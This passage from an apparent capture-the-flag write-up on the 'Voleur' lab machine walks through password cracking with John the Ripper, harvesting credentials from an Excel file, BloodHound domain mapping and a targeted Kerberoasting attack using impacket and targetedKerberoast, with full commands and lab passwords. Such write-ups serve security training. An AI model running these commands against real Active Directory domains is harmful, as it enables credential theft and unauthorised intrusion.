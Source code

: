 Then we use **John The Ripper** to crack the password.

```
john -w=/usr/share/wordlists/rockyou.txt hash
```

![8](/images/writeups/voleur/8.png)

Once we know the password, we can access the **Excel file**.

![9](/images/writeups/voleur/9.png)

We obtain the credentials for the users **svc_ldap** and **svc_iis**.

```
svc_ldap : M1XyC9pW7qT5Vn
svc_iss : N5pXyW1VqM7CZ8
```

At this point, there’s nothing more interesting to explore.

We now choose **svc_ldap** instead of **ryan.naylor** for domain mapping with [**BloodHound**](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart), as this user has more extensive **read permissions** that allow collecting all **relationships**, **ACLs**, and possible **escalation paths**, whereas a normal user like **ryan.naylor** would have limited access.

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" bloodhound-python -d 'voleur.htb' -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' -gc 'dc.voleur.htb' -ns 10.10.11.76 -v --zip -c all
```

![10](/images/writeups/voleur/10.png)

We upload the resulting **ZIP** file to **BloodHound** and, analyzing the user **svc_ldap**, we see that they have `WriteSPN` permissions over the user **svc_winrm** and belong to the **RESTORE_USERS** group, which has `GenericWrite` permissions over **lacey.miller**. With these permissions, it is possible to perform a **Kerberoasting Attack** to **extract the password hashes** of these users.

We create another **TGT**, this time for the user **svc_ldap**.

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" impacket-getTGT voleur.htb/'svc_ldap':'M1XyC9pW7qT5Vn'
export KRB5CCNAME=$PWD/svc_ldap.ccache
```

Then we clone the [**targetedKerberoast**](https://github.com/ShutdownRepo/targetedKerberoast/tree/main) repository and run it. It uses the **svc_ldap TGT** to request service tickets (**SPNs**) for which it has permissions. These tickets are encrypted as **hashes**, which we can then attempt to **crack**.

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
```

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" python3 targetedKerberoast.py -v -d 'voleur.htb' -u 'svc_ldap' --dc-host dc.voleur.htb -k
```
